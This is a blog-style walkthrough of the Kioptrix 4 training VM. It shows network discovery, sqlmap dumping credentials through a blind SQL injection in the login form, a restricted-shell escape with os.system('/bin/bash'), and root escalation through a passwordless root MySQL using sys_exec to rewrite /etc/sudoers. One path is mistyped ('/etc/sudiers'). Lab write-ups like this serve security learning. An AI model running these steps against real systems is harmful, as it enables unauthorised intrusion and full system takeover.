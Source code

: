 ```yaml
---
layout: post
title: Kioptrix 4 - Walkthrough
---
```


I have done the fourth VM in the Kioptrix series. Another really great VM, a lot of fun.

For first I started out by finding the machine

```
netdiscover -r 192.168.1.0/24
```

Then I ran an nmap scan, from metasploit.

```
host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.105  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.1.105  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
192.168.1.105  139   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
192.168.1.105  445   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
```

I found some that samba is running. But let's start with port 80.

On port 80 we face a login-screen. I ran sqlmap against it and found an injection in the mypassword parameter.

```
[19:08:51] [INFO] POST parameter 'mypassword' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable
```

```
sqlmap -r checklogin.txt -p mypassword --dbms=mysql -D members --dump  
```

And got this from the DB
```
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

I used the credencials to ssh into the machine. There I was stuck with a really limited shell. I had to cheat here a bit because I didn't know how to proceed. But it turns out it was really quite simple to break out from that shell.

```
echo os.system("/bin/bash")
```

Here I ran some priv-esc scripts to map out the system. I found that mysql was running as root. And that it was not accessible from the outside world. So I guess that's why the sysadmin never bothered to add a root password. Not that it matters, if s/he would have added it, it would still be available in the php-file that connects to the database. Anyways, I logged in to mysql. First I tried to get this exploits to work: https://www.exploit-db.com/exploits/1518/
But since I didn't have access to gcc it was kind of hard. So after some cheating I learned about sys_exec

So I did

```
mysql -u root
SELECT sys_exec("cp /etc/sudoers /tmp/sudoers")
SELECT sys_exec("chmod 777 /tmp/sudoers")
```

Then I added john to sudo and then I did:
```
SELECT sys_exec("cp /tmp/sudoers /etc/sudiers")
```

Then

```
sudo su
```

And done.

